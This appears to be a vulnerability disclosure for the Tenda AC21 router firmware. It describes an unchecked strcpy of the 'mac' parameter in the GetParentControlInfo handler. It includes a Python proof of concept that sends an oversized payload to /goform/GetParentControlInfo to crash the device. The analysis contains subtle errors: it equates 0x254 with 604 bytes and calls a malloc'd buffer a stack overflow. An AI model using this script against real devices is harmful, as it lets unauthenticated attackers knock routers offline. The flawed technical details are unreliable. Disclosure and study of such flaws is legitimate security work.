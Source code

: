 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC21（AC21V1.0re_V16.03.08.16）
## Overview
There is a stack-based buffer overflow vulnerability in the Tenda Wi-Fi 5 Router AC21 device running the firmware version AC21V1.0re_V16.03.08.16. Due to the lack of restrictions on certain parameters in the GetParentControlInfo function and the absence of boundary checks, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through the parameters in this endpoint: `/goform/GetParentControlInfo``sub_433BE4``formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd. ([https://www.tenda.com.cn](https://www.tenda.com.cn))
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC21 device
+ **Affected Version**: AC21V1.0re_V16.03.08.16
+ **Attack Vector**: Exploit functions without boundary checks and with insufficient parameter restrictions, using carefully constructed payloads to cause a stack-based buffer overflow
+ **Impact**:
    - Denial of Service (Dos)
+ **Affected Component**: /goform/GetParentControlInfo, sub_433BE4, formDefineTendDa
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)
+ **Firmware**: [https://www.tenda.com.cn/material/show/3742](https://www.tenda.com.cn/material/show/3742)

## Discovery
This vulnerability was discovered by analyzing the firmware (US_AC21V1.0re_V16.03.08.16_cn_TDC01.bin). The following call chain exists in the squashfs-root/bin/httpd file:  
main → sub_433BE4 → formDefineTendDa → GetParentControlInfo

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/main%E8%B0%83%E7%94%A8.png)

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/formDefineTenda1.png)

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/formDefineTenda2.png)

s is a buffer allocated via malloc(0x254u), with a size of 0x254 bytes and initialized to all 0s. The target address is s + 2, meaning data copying starts from the 3rd byte of s, and the remaining available space is 604 - 2 = 602 bytes. Var is the external input obtained via websGetVar(a1, "mac", &unk_4D999C) (it is the value of the user-controllable "mac" parameter). strcpy will continuously copy characters from Var until encountering \0, without verifying at all whether the target buffer can accommodate all the data. As external input, the length of Var may exceed 602 bytes.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/%E6%BA%A2%E5%87%BA%E7%82%B9.png)

Therefore, carefully designing a payload at the interface path /goform/GetParentControlInfo can cause a buffer overflow.

## Steps to Reproduce
Construct the following payload using python:

```python
import requests

# Construct overflow payload
def create_payload():
    buffer_size = 512000
    payload = b"A" * buffer_size
    v11_value = b"\xef\xbe\xad\xde"
    payload += v11_value
    return payload

# Construct and send HTTP request
def send_payload(url, payload):
    params = {'mac': payload}
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    # Target URL
    url = "http://192.168.190.239/goform/GetParentControlInfo"
    # Create malicious payload
    payload = create_payload()
    # Send malicious request
    send_payload(url, payload)
```

Use qemu to emulate the httpd extracted from US_AC21V1.0re_V16.03.08.16_cn_TDC01.bin (note that this file is for the mips little-endian architecture, and IDA needs to be used to modify httpd to adapt to the emulation environment).

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/patch.png)

As shown in the figure below, the emulation is successful.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/payload%24%E4%BB%BF%E7%9C%9F.png)

Use this script to trigger the stack overflow.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/%E8%A7%A6%E5%8F%91.png)

#### Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through the parameters in this endpoint. 
